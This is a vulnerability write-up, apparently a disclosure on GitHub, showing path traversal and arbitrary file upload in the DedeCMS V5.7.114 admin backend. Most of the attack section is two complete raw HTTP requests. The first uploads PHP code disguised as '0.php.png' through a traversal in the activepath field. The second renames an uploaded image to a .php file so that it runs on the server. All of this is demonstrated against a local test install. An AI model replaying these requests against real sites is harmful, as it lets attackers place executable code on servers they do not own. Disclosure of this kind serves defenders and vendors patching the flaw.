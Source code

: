 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708130926507.png)

​	E: \ seebug \ php study_p is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\ as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240712135020653.png)

​	vulnerability mainly appears at the compressed file upload location

![image-20240712145034349](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240712145034349.png)

```http
POST /include/dialog/select_images_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 1971
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3Mt7CAkNjyzWYBFm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_images.php?f=form1.picname&noeditor=yes&imgstick=undefined
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; DedeLoginTime=1720418572; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=9c25d28547e20a28; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="noeditor"

yes
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="activepath"

/uploads/..
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="f"

form1.picname
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="v"

picview
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgstick"

undefined
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="CKEditorFuncNum"

1
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgfile"; filename="0.php.png"
Content-Type: image/png

<?php echo 123;?>
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iwidth"

240
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iheight"

180
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundary3Mt7CAkNjyzWYBFm--
```

​	`Select_images_post. php 'did not perform sufficient filtering on the activepath parameter, so it is possible to bypass the file suffix blacklist by modifying the value of activepath to a file name with a suffix of' php ', and combined with the first two path traversal vulnerabilities to achieve arbitrary file upload vulnerabilities

![image-20240708150758976](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708150758976.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

fmdo=rename&activepath=%2F240708&filename=1-240FQ50614S6.png&oldfilename=1-240FQ50614S6.png&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

![image-20240708165441039](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708165441039.png)

![image-20240708164949322](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708164949322.png)

​	Successfully modified '127.0.0.1,9600 \ 240708 \ 1-240FQ50614S6. png' to '127.0.0.1,9600 \ 240708 \ index1php'`

![image-20240708165348465](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708165348465.png)
